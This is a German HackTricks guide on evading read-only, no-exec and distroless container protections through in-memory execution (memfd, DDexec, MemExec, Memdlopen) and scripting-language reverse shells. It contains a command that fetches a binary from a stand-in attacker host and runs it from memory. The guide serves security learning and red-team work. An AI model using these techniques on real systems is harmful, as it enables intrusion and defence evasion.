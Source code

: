 # Umgehen von FS-Schutzmaßnahmen: Nur-Lesen / Kein-Exec / Distroless

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Wenn Sie an einer **Hacking-Karriere** interessiert sind und das Unhackbare hacken möchten - **wir stellen ein!** (_fließendes Polnisch in Wort und Schrift erforderlich_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In den folgenden Videos finden Sie die auf dieser Seite erwähnten Techniken ausführlicher erklärt:

* [**DEF CON 31 - Erkundung der Linux-Speicher-Manipulation für Stealth und Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth-Eindringungen mit DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Nur-Lesen / Kein-Exec-Szenario

Es wird immer häufiger, dass Linux-Maschinen mit **Schutzmaßnahmen für eine nur-Lese (ro) Dateisystem** montiert sind, insbesondere in Containern. Dies liegt daran, dass das Ausführen eines Containers mit nur-Lese-Dateisystem so einfach ist wie das Festlegen von **`readOnlyRootFilesystem: true`** im `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Auch wenn das Dateisystem als ro eingebunden ist, wird **`/dev/shm`** dennoch beschreibbar sein, sodass wir nichts auf die Festplatte schreiben können. Dieser Ordner wird jedoch mit **Kein-Exec-Schutz eingebunden**, sodass Sie, wenn Sie hier eine Binärdatei herunterladen, diese **nicht ausführen können**.

{% hint style="warning" %}
Aus der Sicht eines Red Teams wird es dadurch **kompliziert, Binärdateien herunterzuladen und auszuführen**, die nicht bereits im System vorhanden sind (wie Backdoors oder Enumeratoren wie `kubectl`).
{% endhint %}

## Einfachster Umgehungsweg: Skripte

Beachten Sie, dass ich von Binärdateien gesprochen habe, Sie können **jedes Skript ausführen**, solange der Interpreter innerhalb der Maschine vorhanden ist, wie ein **Shell-Skript**, wenn `sh` vorhanden ist, oder ein **Python-Skript**, wenn `python` installiert ist.

Dies reicht jedoch nicht aus, um Ihre Binärdatei-Backdoor oder andere Binärwerkzeuge auszuführen, die Sie möglicherweise ausführen müssen.

## Speicherumgehungen

Wenn Sie eine Binärdatei ausführen möchten, das Dateisystem dies jedoch nicht zulässt, ist der beste Weg, dies zu tun, indem Sie es aus dem **Speicher ausführen**, da die **Schutzmaßnahmen dort nicht gelten**.

### FD + exec-Systemaufruf-Umgehung

Wenn Sie leistungsstarke Skript-Engines innerhalb der Maschine haben, wie **Python**, **Perl** oder **Ruby**, könnten Sie die Binärdatei zum Ausführen aus dem Speicher herunterladen, sie in einem Speicherdateideskript speichern (`create_memfd`-Systemaufruf), der nicht durch diese Schutzmaßnahmen geschützt wird, und dann einen **`exec`-Systemaufruf** aufrufen, wobei der **fd als auszuführende Datei angegeben wird**.

Hierfür können Sie das Projekt [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) verwenden. Sie können ihm eine Binärdatei übergeben, und es wird ein Skript in der angegebenen Sprache mit der **Binärdatei komprimiert und b64-codiert** generieren, mit den Anweisungen zum **Dekodieren und Dekomprimieren** in einem mit `create_memfd`-Systemaufruf erstellten **fd** und einem Aufruf des **exec**-Systemaufrufs zum Ausführen.

{% hint style="warning" %}
Dies funktioniert nicht in anderen Skriptsprachen wie PHP oder Node, da sie keine **Standardmethode zum Aufrufen von Rohsystemaufrufen** aus einem Skript haben, sodass es nicht möglich ist, `create_memfd` aufzurufen, um den **Speicherfd** zum Speichern der Binärdatei zu erstellen.

Darüber hinaus wird das Erstellen eines **regulären fd** mit einer Datei in `/dev/shm` nicht funktionieren, da Sie es nicht ausführen dürfen, da der **Kein-Exec-Schutz** angewendet wird.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) ist eine Technik, die es Ihnen ermöglicht, den **Speicher Ihres eigenen Prozesses zu modifizieren**, indem Sie seinen **`/proc/self/mem`** überschreiben.

Daher können Sie, indem Sie den **Assembly-Code steuern**, der vom Prozess ausgeführt wird, ein **Shellcode** schreiben und den Prozess "mutieren", um **beliebigen Code auszuführen**.

{% hint style="success" %}
**DDexec / EverythingExec** ermöglicht es Ihnen, Ihren eigenen **Shellcode** oder **beliebige Binärdateien** aus dem **Speicher zu laden und auszuführen**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec) ist der natürliche nächste Schritt von DDexec. Es handelt sich um einen **DDexec-Shellcode-Dämon**, sodass Sie jedes Mal, wenn Sie **eine andere Binärdatei ausführen möchten**, nicht DDexec neu starten müssen. Sie können einfach den Memexec-Shellcode über die DDexec-Technik ausführen und dann **mit diesem Dämon kommunizieren, um neue Binärdateien zu übergeben, zu laden und auszuführen**.

Ein Beispiel, wie Sie **Memexec verwenden können, um Binärdateien von einer PHP-Reverse-Shell auszuführen**, finden Sie unter [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Mit einem ähnlichen Zweck wie DDexec ermöglicht die **Memdlopen**-Technik eine **einfachere Möglichkeit, Binärdateien im Speicher zu laden**, um sie später auszuführen. Es könnte sogar ermöglichen, Binärdateien mit Abhängigkeiten zu laden.

## Distroless Bypass

### Was ist Distroless

Distroless-Container enthalten nur die **absolut notwendigen Komponenten, um eine bestimmte Anwendung oder einen bestimmten Dienst auszuführen**, wie Bibliotheken und Laufzeitabhängigkeiten, aber schließen größere Komponenten wie einen Paketmanager, eine Shell oder Systemdienstprogramme aus.

Das Ziel von Distroless-Containern ist es, die Angriffsfläche von Containern zu **verringern, indem unnötige Komponenten eliminiert** und die Anzahl der ausnutzbaren Schwachstellen minimiert werden.

### Reverse-Shell

In einem Distroless-Container finden Sie möglicherweise **nicht einmal `sh` oder `bash`**, um eine reguläre Shell zu erhalten. Sie werden auch keine Binärdateien wie `ls`, `whoami`, `id` finden... alles, was Sie normalerweise in einem System ausführen.

{% hint style="warning" %}
Daher werden Sie **keine** Möglichkeit haben, eine **Reverse-Shell** zu erhalten oder das System zu **enumerieren**, wie Sie es normalerweise tun.
{% endhint %}

Wenn jedoch der kompromittierte Container beispielsweise ein Flask-Web ausführt, dann ist Python installiert, und daher können Sie eine **Python-Reverse-Shell** erhalten. Wenn Node ausgeführt wird, können Sie eine Node-Rev-Shell erhalten, und dasselbe gilt für fast jede **Skriptsprache**.

{% hint style="success" %}
Mit der Skriptsprache könnten Sie das System **enumerieren**, indem Sie die Fähigkeiten der Sprache nutzen.
{% endhint %}

Wenn es **keine `read-only/no-exec`**-Schutzmaßnahmen gibt, könnten Sie Ihre Reverse-Shell missbrauchen, um **Ihre Binärdateien im Dateisystem zu schreiben** und sie **auszuführen**.

{% hint style="success" %}
In diesen Art von Containern werden diese Schutzmaßnahmen jedoch normalerweise vorhanden sein, aber Sie könnten die **vorherigen Speicher-Ausführungstechniken verwenden, um sie zu umgehen**.
{% endhint %}

Sie finden **Beispiele**, wie Sie **einige RCE-Schwachstellen ausnutzen** können, um Skriptsprachen **Reverse-Shells** zu erhalten und Binärdateien aus dem Speicher auszuführen, unter [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).
